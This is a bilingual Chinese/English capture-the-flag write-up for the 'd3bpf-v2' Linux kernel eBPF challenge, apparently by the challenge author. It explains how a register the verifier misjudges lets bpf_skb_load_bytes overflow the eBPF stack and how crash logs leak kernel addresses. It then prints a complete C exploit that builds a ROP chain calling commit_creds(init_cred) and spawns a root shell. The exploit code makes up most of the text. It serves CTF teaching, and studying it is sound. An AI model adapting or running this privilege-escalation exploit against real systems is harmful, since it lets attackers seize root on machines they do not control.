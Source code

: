 ### d3bpf-v2

这道题主要受到 [这篇邮件](https://www.openwall.com/lists/oss-
security/2022/01/18/2)的启发，非常感谢 **@tr3e** 师傅！

This challenge was mainly inspired by [this
email](https://www.openwall.com/lists/oss-security/2022/01/18/2), thanks a lot
to **@tr3e**!

在新版本的 kernel 中，不论是 verifier 还是 ALU sanitizer 都加强了检测，上一题中提到的利用完全失效，但是通过
`bpf_skb_load_bytes` 函数仍然可以实现利用。

In the new version of kernel, both verifier and ALU sanitizer have been
enhanced to detect that the exploit mentioned in the previous question is
completely disabled, but with the help of `bpf_skb_load_bytes` function we can
still exploit the bug.

`bpf_skb_load_bytes` 可以将一个 socket 中的数据读到 bpf 的栈上，man page 中是这样写的

`bpf_skb_load_bytes` can read data from a socket onto the bpf stack, as
written in the man page

>       long bpf_skb_load_bytes(const void *skb, u32 offset, void *to,  
>       u32 len)  
>  
>              Description  
>                     This helper was provided as an easy way to load  
>                     data from a packet. It can be used to load len  
>                     bytes from offset from the packet associated to  
>                     skb, into the buffer pointed by to.  
>  
>                     Since Linux 4.7, usage of this helper has mostly  
>                     been replaced by "direct packet access", enabling  
>                     packet data to be manipulated with skb->data and  
>                     skb->data_end pointing respectively to the first  
>                     byte of packet data and to the byte after the last  
>                     byte of packet data. However, it remains useful if  
>                     one wishes to read large quantities of data at once  
>                     from a packet into the eBPF stack.  
>  
>              Return 0 on success, or a negative error in case of  
>                     failure.

如果我们可以让 len 大于栈上 buf 的长度，就可以直接栈溢出。由于添加的漏洞可以让我们获得一个运行时值为 1，而 verifier 认定为 0
的寄存器，所以可以很容易的指定一个很长的 len，并且骗过 verifier。

If we can make len larger than the length of the buf on the stack, we can just
stack overflow. Since the added vulnerability allows us to get a register with
a runtime value of 1 that the verifier determines to be 0, it is easy to
specify a very long len and fool the verifier.

唯一的问题是 leak，也许可以通过溢出修改 bpf 栈上的指针变量实现任意地址读，但是笔者在调试时发现新版本内核在 ebpf 程序 crash（如 0
地址访问）时并不会造成内核崩溃（因为这属于 “soft panic”，当 /proc/sys/kernel/panic_on_oops 值为 0 时
soft panic 并不会直接 panic。似乎在默认情况下其值就是 0，如 Ubuntu 20.04。在 ctf 的 kernel pwn
题中，可能由于不希望被通过 crash 打印日志的方法 leak，一般都会在 qemu 启动项里通过 oops = panic 来让 soft panic
也直接造成 kernel 的重启），还会打出一些地址信息，笔者就直接通过这种方式完成 leak 了。

The only problem is leak, perhaps through the overflow to modify the bpf stack
pointer variables to achieve arbitrary address read, but I found in debugging
the new version of the kernel in the ebpf program crash (such as 0 address
access) does not cause the kernel to crash (Because this is a "soft panic",
soft panic does not panic directly when /proc/sys/kernel/panic_on_oops is 0.
It seems that by default it is 0, as in Ubuntu 20.04. In ctf's kernel pwn
challenges, the soft panic is usually made to cause a direct kernel reboot by
oops = panic in the qemu boot entry, probably because you don't want to be
leaked by crashing and printing the log), but also hit some address
information, the author will be directly through this way to complete the
leak.

由于可以栈溢出，所以之后的利用非常简单，这里不再赘述。

Since it is possible to overflow the stack, the subsequent exploitation is
very simple and will not be repeated here.

#### exp  
```clike=  
// x86_64-buildroot-linux-uclibc-cc core.c bpf_def.c bpf_def.h kernel_def.h
-Os -static -masm=intel -s -o exp  
#include <stdio.h>  
#include <stdint.h>  
#include <stdlib.h>  
#include <string.h>  
#include <unistd.h>  
#include <linux/bpf.h>  
#include <linux/bpf_common.h>  
#include <sys/types.h>  
#include <signal.h>  
#include "kernel_def.h"  
#include "bpf_def.h"

void error_exit(const char *msg)  
{  
   puts(msg);  
   exit(1);  
}

#define CONST_REG   BPF_REG_9  
#define EXP_REG     BPF_REG_8

#define trigger_bug() \  
   /* trigger the bug */       \  
   BPF_MOV64_IMM(CONST_REG, 64),     \  
   BPF_MOV64_IMM(EXP_REG, 0x1),      \  
   /* make exp_reg believed to be 0, in fact 1 */     \  
   BPF_ALU64_REG(BPF_RSH, EXP_REG, CONST_REG),      \  
   BPF_MOV64_REG(BPF_REG_0, EXP_REG)

void get_root()  
{  
   if (getuid() != 0)  
   {  
       error_exit("[-] didn't got root\n");  
   }  
   else  
   {  
       printf("[+] got root\n");  
       system("/bin/sh");  
   }  
}

size_t user_cs, user_gs, user_ds, user_es, user_ss, user_rflags, user_rsp;  
void get_userstat()  
{  
   __asm__(".intel_syntax noprefix\n");  
   __asm__ volatile(  
       "mov user_cs, cs;\  
        mov user_ss, ss;\  
        mov user_gs, gs;\  
        mov user_ds, ds;\  
        mov user_es, es;\  
        mov user_rsp, rsp;\  
        pushf;\  
        pop user_rflags");  
//    printf("[+] got user stat\n");  
}

int main(int argc, char* argv[])  
{  
   if (argc == 1)  
   {  
       // use the crash to leak  
       struct bpf_insn oob_test[] = {  
           trigger_bug(),  
           BPF_ALU64_IMM(BPF_MUL, EXP_REG, (16 - 8)),  
           BPF_MOV64_IMM(BPF_REG_2, 0),  
           BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),  
           BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -8),  
           BPF_MOV64_IMM(BPF_REG_4, 8),  
           BPF_ALU64_REG(BPF_ADD, BPF_REG_4, EXP_REG),  
           BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes),   
           BPF_EXIT_INSN()  
       };

       char write_buf[0x100];  
       memset(write_buf, 0xAA, sizeof(write_buf));  
       if (0 != run_bpf_prog(oob_test, sizeof(oob_test) / sizeof(struct bpf_insn), NULL, write_buf, 0x100))  
       {  
           error_exit("[-] Failed to run bpf program\n");  
       }  
   }  
   else if (argc == 2)  
   {  
       get_userstat();  
       signal(SIGSEGV, &get_root);  
       size_t kernel_offset = strtoul(argv[1], NULL, 16);  
       printf("[+] kernel offset: 0x%lx\n", kernel_offset);  
       size_t commit_creds = kernel_offset + 0xffffffff810d7210;  
       size_t init_cred = kernel_offset + 0xffffffff82e6e860;  
       size_t pop_rdi_ret = kernel_offset + 0xffffffff81097050;  
       size_t swapgs_restore_regs_and_return_to_usermode = kernel_offset + 0xffffffff81e0100b;  
       size_t rop_buf[0x100];  
       int i = 0;  
       rop_buf[i++] = 0xDEADBEEF13377331;  
       rop_buf[i++] = 0xDEADBEEF13377331;  
       rop_buf[i++] = pop_rdi_ret;  
       rop_buf[i++] = init_cred;  
       rop_buf[i++] = commit_creds;  
       rop_buf[i++] = swapgs_restore_regs_and_return_to_usermode;  
       rop_buf[i++] = 0;  
       rop_buf[i++] = 0;  
       rop_buf[i++] = &get_root;  
       rop_buf[i++] = user_cs;  
       rop_buf[i++] = user_rflags;  
       rop_buf[i++] = user_rsp;  
       rop_buf[i++] = user_ss;  
       struct bpf_insn oob_test[] = {  
           trigger_bug(),  
           BPF_ALU64_IMM(BPF_MUL, EXP_REG, (0x100 - 8)),  
           BPF_MOV64_IMM(BPF_REG_2, 0),  
           BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),  
           BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -8),  
           BPF_MOV64_IMM(BPF_REG_4, 8),  
           BPF_ALU64_REG(BPF_ADD, BPF_REG_4, EXP_REG),  
           BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes),   
           BPF_EXIT_INSN()  
       };

       if (0 != run_bpf_prog(oob_test, sizeof(oob_test) / sizeof(struct bpf_insn), NULL, rop_buf, 0x100))  
       {  
           error_exit("[-] Failed to run bpf program\n");  
       }  
   }

   return 0;  
}  
```

首先运行 exp，然后通过打印出的信息获取内核地址，计算出偏移。然后重新运行 exp 并提供偏移即可实现提权。

First run exp, then get the kernel address from the printed information and
calculate the offset. Then re-run exp and provide the offset to achieve the
privilege escalation.

一些头文件没有放在这里，完整的 exp 在[我的 GitHub 仓库](https://github.com/chujDK/my-ctf-
challenges/tree/main/d3bpf-v2)中。

Some of the header files are not here, the full exp is in [my GitHub
repository](https://github.com/chujDK/my-ctf-challenges/tree/main/d3bpf-v2).

Original writeup (https://cjovi.icu/WP/1604.html).